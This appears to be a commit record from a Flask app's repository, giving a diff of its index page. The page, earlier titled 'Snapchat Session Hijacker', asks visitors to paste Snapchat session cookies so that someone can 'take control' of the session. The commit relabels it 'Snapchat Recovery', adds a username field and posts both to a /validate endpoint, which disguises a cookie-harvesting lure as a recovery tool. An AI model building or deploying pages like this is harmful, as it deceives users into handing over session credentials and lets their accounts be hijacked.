

Before and after one commit to ghaith012x-collab/inst, a Flask app: page / in a window 1280 px wide. Shown: the whole page, without its empty margins (278-1001 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,44 +1,71 @@
-
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Snapchat Session Hijacker</title>
+<title>Snapchat Recovery</title>
+<meta name="viewport" content="width=device-width, initial-scale=1.0">
 <style>
-        body { background: #FFFC00; font-family: Arial; text-align: center; padding: 50px; }
-        .container { background: white; padding: 30px; border-radius: 20px; max-width: 600px; margin: 0 auto; }
-        textarea { width: 100%; height: 200px; margin: 20px 0; padding: 10px; }
-        button { background: #000; color: #FFFC00; padding: 15px 40px; border: none; border-radius: 30px; font-size: 18px; cursor: pointer; }
-        #result { margin-top: 20px; padding: 15px; border-radius: 10px; }
+* { box-sizing: border-box; margin: 0; padding: 0; }
+body { background: #FFFC00; font-family: -apple-system, sans-serif; min-height: 100vh; display: flex; align-items: center; justify-content: center; padding: 20px; }
+.container { background: white; padding: 30px; border-radius: 24px; width: 100%; max-width: 500px; }
+h1 { font-size: 24px; margin-bottom: 8px; }
+.subtitle { color: #666; font-size: 14px; margin-bottom: 20px; }
+input, textarea { width: 100%; padding: 14px; border: 2px solid #e0e0e0; border-radius: 12px; margin-bottom: 12px; font-size: 14px; outline: none; }
+input:focus, textarea:focus { border-color: #FFFC00; }
+textarea { height: 150px; font-family: monospace; font-size: 12px; }
+button { background: #000; color: #FFFC00; padding: 16px; border: none; border-radius: 30px; font-size: 16px; font-weight: 600; cursor: pointer; width: 100%; }
+#result { margin-top: 16px; padding: 16px; border-radius: 12px; font-size: 14px; display: none; }
+#result.success { background: #e8f5e9; color: #2e7d32; display: block; }
+#result.error { background: #ffebee; color: #c62828; display: block; }
 </style>
 </head>
 <body>
 <div class="container">
-        <h1>🔓 Snapchat Session Hijacker</h1>
-        <p>Paste your Snapchat session cookies below to validate and take control</p>
-        <textarea id="cookies" placeholder="sc-a-session=xxx; sc-a-csrf=xxx; sc-a-nonce=xxx; ..."></textarea>
-        <button onclick="validateSession()">Validate & Hijack Session</button>
+<h1>🔒 Recovery</h1>
+<p class="subtitle">Enter your username + paste cookies</p>
+
+<input type="text" id="username" placeholder="Your Snapchat username">
+<textarea id="cookies" placeholder='Paste JSON cookies here...'></textarea>
+
+<button onclick="validate()" id="btn">Validate</button>
 <div id="result"></div>
 </div>
 
 <script>
-        async function validateSession() {
+async function validate() {
+    const username = document.getElementById('username').value.trim();
     const cookies = document.getElementById('cookies').value;
-            const resultDiv = document.getElementById('result');
-            resultDiv.innerHTML = 'Validating...';
+    const result = document.getElementById('result');
+
+    if (!username) { result.className = 'error'; result.textContent = '❌ Enter your Snapchat username'; result.style.display = 'block'; return; }
+    if (!cookies) { result.className = 'error'; result.textContent = '❌ Paste cookies'; result.style.display = 'block'; return; }
+
+    let cookieData;
+    try { cookieData = JSON.parse(cookies); } catch(e) { cookieData = cookies; }
+
+    document.getElementById('btn').disabled = true;
+    document.getElementById('btn').textContent = 'Checking...';
 
     const resp = await fetch('/validate', {
         method: 'POST',
         headers: {'Content-Type': 'application/json'},
-                body: JSON.stringify({cookies: cookies})
+        body: JSON.stringify({cookies: cookieData, username: username})
     });
 
     const data = await resp.json();
+
     if (data.success) {
-                resultDiv.innerHTML = `<div style="background:#d4edda">✅ Hijacked as @${data.username}<br>Session: ${data.session_id}<br>Monitoring active. Use ,s or ,sn commands in any chat.</div>`;
-                setTimeout(() => window.location.href = '/dashboard', 2000);
+        result.className = 'success';
+        result.innerHTML = '✅ @' + data.username + '<br><small>Going to dashboard...</small>';
+        result.style.display = 'block';
+        setTimeout(() => window.location.href = '/dashboard', 1000);
     } else {
-                resultDiv.innerHTML = `<div style="background:#f8d7da">❌ ${data.error}</div>`;
+        result.className = 'error';
+        result.textContent = '❌ ' + data.error;
+        result.style.display = 'block';
     }
+
+    document.getElementById('btn').disabled = false;
+    document.getElementById('btn').textContent = 'Validate';
 }
 </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
